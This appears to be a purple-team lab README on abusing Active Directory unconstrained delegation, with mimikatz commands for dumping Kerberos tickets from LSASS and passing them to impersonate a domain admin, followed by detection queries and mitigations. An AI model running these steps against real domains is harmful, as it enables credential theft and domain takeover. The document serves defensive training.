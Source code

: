 # Attack Scenario: Unconstrained Delegation Abuse
Simulates exploitation of hosts or accounts with unconstrained delegation enabled in an on-prem AD environment. An attacker who compromises such a host can extract TGTs of users who authenticate to it — potentially leading to domain compromise.

MITRE ATT&CK Techniques:

T1550.002 – Pass-the-Ticket

T1134.001 – Token Impersonation/Theft

## Lab Environment
- **Windows Server 2025 host:** delegate01.internal.lab
→ Trusted for delegation to any service (unconstrained)

- **Domain Controller:** dc01.internal.lab

- **Attacker-controlled host:** attacker-vm

- **Admin user:** admin.internal.lab

Preconditions:
- delegate01 has unconstrained delegation enabled.
- admin.internal.lab logs in to delegate01 during the test.

## Objectives
Identify hosts/accounts with unconstrained delegation

Compromise the delegated host

Monitor for incoming TGTs in memory

Extract Domain Admin’s TGT

Use the TGT to impersonate the Domain Admin and access sensitive systems

## Execution
### 1. Discover Delegation Configuration
Get-DomainComputer -Unconstrained

### 2. Compromise the Host
Access delegate01 via any method (e.g., RDP, PsExec, scheduled task).

### 3. Dump TGTs from LSASS (when victim logs in)
Use mimikatz:

```sekurlsa::tickets /export```

### 4. Identify Admin Ticket
Look for ticket targeting krbtgt or from admin@INTERNAL.LAB.

### 5. Pass-the-Ticket
kerberos::ptt <admin-ticket.kirbi>

### 6. Confirm Privilege Access
Try:

```dir \\dc01.internal.lab\c$```

or use BloodHound to pivot further.

##  Detection Guidance
Microsoft Defender for Identity:
"Suspected use of ticket theft attack"

"Kerberos ticket reuse detected"

Event Logs:
4769: TGS Request for high-privilege users

4624 Type 3: Network logons into sensitive systems

KQL Example (Microsoft Sentinel):
```
SecurityEvent
| where EventID == 4624 and LogonType == 3
| where WorkstationName =~ "delegate01"
| summarize LogonCount = count() by Account, IPAddress, bin(TimeGenerated, 1h)
| where LogonCount > 3
```

## Mitigations
Avoid enabling unconstrained delegation

Use Resource-Based Constrained Delegation (RBCD) instead

Prevent Domain Admins from logging into delegated systems

Monitor for ticket export activity (e.g., access to LSASS)

## References
https://adsecurity.org/?p=1667

https://github.com/gentilkiwi/mimikatz

https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Resource-Based Constrained Delegation](./rbcd.md)